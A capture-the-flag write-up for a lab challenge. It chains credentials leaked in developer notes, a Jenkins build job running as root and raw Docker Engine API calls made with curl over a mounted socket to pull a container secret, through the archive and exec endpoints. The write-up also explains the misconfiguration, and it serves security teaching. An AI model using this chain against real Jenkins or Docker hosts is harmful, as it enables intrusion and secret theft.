






# DOCKYARD — Writeup

**Category:** Misc / DevSecOps | **Difficulty:** Medium-Hard requires jenkins/docker knoweledge

---

## Overview

This challenge is a realistic pentest scenario: move through the network, chain misconfigurations, and break out of a container through a mounted Docker socket.

---

## The Setup

We SSH into a jumpbox as `ctf` (password: `numidian123`). 

---

## Step 1: Enumeration — What Do We Have?

Before touching anything, figure out what is around us. Skipping this step usually leads to wasted time later.

### What's on this machine?

Start with basic recon: who are we, what is here, and what can we reach?

```bash
# Who am I? What can I do?
whoami
id
uname -a

# What's in my home directory?
ls -la
```

The `ctf` user is low privilege, but the box contains notes, configs, and other files worth checking. That is the attack surface.

---

## Step 2: The Developer Left Notes (Thanks, 4mdj4d)

Back to the home directory. We saw `developer_notes.txt` during enumeration. Reading it reveals:

```
Hey Karim,
Vault container is live. Secret's loaded via Docker secrets as discussed. Jenkins is great !
, I removed the docker binary from it  so interns can't mess with production containers again (remember last Thursday? lol)
Creds are still the temp ones: admin / 4mdj4d_dz_sec_2026
I'll rotate them after the audit. Don't remind me.
```

The notes give us four useful facts:
- A Jenkins instance is on the network.
- The creds are `admin` / `4mdj4d_dz_sec_2026`.
- The `docker` binary was removed from the Jenkins runner, but the socket is still mounted.
- A vault container is present with a secret loaded via Docker secrets.

At this point the path is clear: abuse Jenkins, find the Docker socket, and read the secret from the vault container.

---

### What's on the network?

The jumpbox has `nmap`, `curl`, and `netcat`, which is enough for internal recon.

```bash
# What's my IP and network range?
ip addr show

# Quick port scan on the live hosts
nmap --T4 172.20.0.0/24 
```



A Jenkins instance is on port 8080.


## Step 3: Port Forward and Get Into Jenkins

Jenkins was identified at `172.20.0.3:8080` during enumeration. Set up an SSH tunnel to access it from the host browser:

```bash
ssh -L 8080:jenkins:8080 ctf@localhost -p 9134
```

Then open `http://localhost:8080` in the browser and log in with the credentials from the notes.

---

## Step 4: Recon the Jenkins Instance

An existing job called `deploy-vault` already has a build history. Check the console output of Build #1:



So now we know:
- The container is called `secure-vault`.
- It mounts a Docker secret called `audit_token` — which means the flag is at `/run/secrets/audit_token` inside that container.
- It's running Alpine

---

## Step 5: Create a Malicious Pipeline Job

Create a new **Freestyle project** on the Jenkins runner.

Add an **Execute shell** build step. First, confirm access and inspect the environment:

```bash
whoami
ls -la /var/run/
```



Run it and check the console output:
- The job runs as `root`.



- `docker.sock` exists.
- The `docker` command is not installed.

So we have the socket but no CLI. That is the whole point of this challenge.

---

## Step 6: Raw Docker API Over curl

The Docker socket is just a Unix domain socket that speaks HTTP. You do not need the `docker` binary; `curl` is enough.

List all containers to confirm the target:

```bash
curl -s --unix-socket /var/run/dind/docker.sock http://localhost/containers/json?all=true | jq .
```



The response includes `secure-vault`. The container ID is also present, but the name works in most API calls.

---

## Step 7: Grab the Flag

The Docker API has an endpoint to download files from a container's filesystem:

```
GET /containers/{id}/archive?path=/path/to/file
```

It returns a tar archive, so we pipe it through `tar` to extract the content to stdout:

```bash
curl -s --unix-socket /var/run/dind/docker.sock \
  "http://localhost/containers/e6d99222fa20a52aae9a71faa99013430e15a5d7ad032a57228fa7516be29aad/archive?path=/run/secrets/audit_token" | tar -xO
```

And there it is:



```
nmctf{n3v3r_m0unt_d0ck3r_s0ck}
```

The flag says it all: **never mount the docker socket**.

---

## Alternative: Exec API

The Exec API is another option:

```bash
# Create an exec instance
EXEC_ID=$(curl -s -X POST --unix-socket /var/run/docker.sock \
  -H "Content-Type: application/json" \
  -d '{"AttachStdout": true, "Cmd": ["cat", "/run/secrets/audit_token"]}' \
  http://localhost/containers/secure-vault/exec | jq -r .Id)

# Start it
curl -s -X POST --unix-socket /var/run/docker.sock \
  -H "Content-Type: application/json" \
  -d '{"Detach": false, "Tty": false}' \
  http://localhost/exec/$EXEC_ID/start
```

---

## Why This Works

The core issue is mounting `/var/run/docker.sock` into a container. The socket gives full control over the Docker daemon. If you can talk to it, you can:
- List and inspect all containers.
- Create new containers with arbitrary mounts (including the host filesystem).
- Exec into existing containers.
- Pull images, stop/start containers, basically own the Docker host.

This CTF uses Docker-in-Docker, so the "host" being escaped into is itself a nested container. Without DinD, this would be a full host escape.

Removing the `docker` binary does not help, since the API is HTTP over a Unix socket. `curl` is enough.

---

## TL;DR

1. SSH into the jumpbox and enumerate the filesystem and network.
2. Discover `developer_notes.txt` with leaked Jenkins credentials.
3. Nmap the internal subnet to find Jenkins on port 8080.
4. Port forward and log into Jenkins with the leaked credentials.
5. Create a build job that runs shell commands.
6. Discover that the Docker socket is mounted at `/var/run/docker.sock`.
7. Use `curl --unix-socket` to talk to the Docker Engine API directly.
8. Pull the flag from the `secure-vault` container's `/run/secrets/audit_token`.
9. Flag: `nmctf{n3v3r_m0unt_d0ck3r_s0ck}`
